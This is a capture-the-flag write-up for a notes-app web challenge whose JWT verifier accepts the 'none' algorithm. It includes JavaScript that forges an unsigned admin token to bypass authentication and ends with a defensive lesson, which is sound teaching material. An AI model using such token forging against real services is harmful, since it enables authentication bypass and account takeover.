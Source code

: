 ## Investigation

The problem described a disposable notes app that deleted any notes in 3 days. They gave us the code for this problem and I've 
included it here if you wanted to try it yourself. Check it out in Local Code.

Opening up the webpage presented this garish UI that told me I was on a disposable guest account.

![Landing-Page](Images/TempNote-LandingPage.png)

Hitting the new account button just creates a new random guest account.

First thing to do is look for the flag in the code. Searching for that showed that the flag was just a note that showed up for the 
admin user.

![Flag-Code](Images/TempNote-Flag-Code.png)

All I need to do then is set my username to admin.

Going through the code further, I found some authentication middleware that checked the username of the user. You can see here that
it looks for a session cookie and, if it doesn't exist, it'll generate a guest one. 

![Flag-Code](Images/TempNote-AuthMiddleware.png)

They're clearly using a JWT for the session cookie. They appear to be calling a verify function to get the username. Going into the
signing and verification functions though revealed something interesting.

![Flag-Code](Images/TempNote-JWT-Code.png)

They're signing the cookie with HS256, but they're verifying it with either HS256 or none. I have no way of figuring out the secret
used, but I don't actually need to. I can just set the alg to none in the JWT header and the signature becomes irrelevant.

## Solution

Grabbing the session token and putting it into jwt.io, I can see that the alg is set to HS256. jwt.io doesn't actually let me set
the algorithm to none. I used crypto-js(https://www.npmjs.com/package/crypto-js) to create my own JWT.

The code to generate the JWT is:

```
import CryptoJS from "crypto-js";

const encodeJWT = () => {
    var header = {
        "alg": "none",
        "typ": "JWT"
      };
      
      var stringifiedHeader = CryptoJS.enc.Utf8.parse(JSON.stringify(header));
      var encodedHeader = base64url(stringifiedHeader);
      
      var data = {
        "username": "admin",
        "iat": 1636665683
      };
      
      var stringifiedData = CryptoJS.enc.Utf8.parse(JSON.stringify(data));
      var encodedData = base64url(stringifiedData);
      
      var token = encodedHeader + "." + encodedData + ".";

      return token
}
```

You can see in jwt.io that the new token has the alg set to none and there is no signature.

![None-JWT](Images/TempNote-NoneJWT.png)

Setting that as my session token and reloading the page nets the flag.

![Flag](Images/TempNote-FinalFlag.png)

Something I've been learning from CTF's is how tiny mistakes can often be devastating. Making sure you use the same algorithm to
both encrypt and decrypt is just one small step to a secure site, but it's just as vital as any other step. Simplifying all of that 
is why services like Auth0 exists in the first place.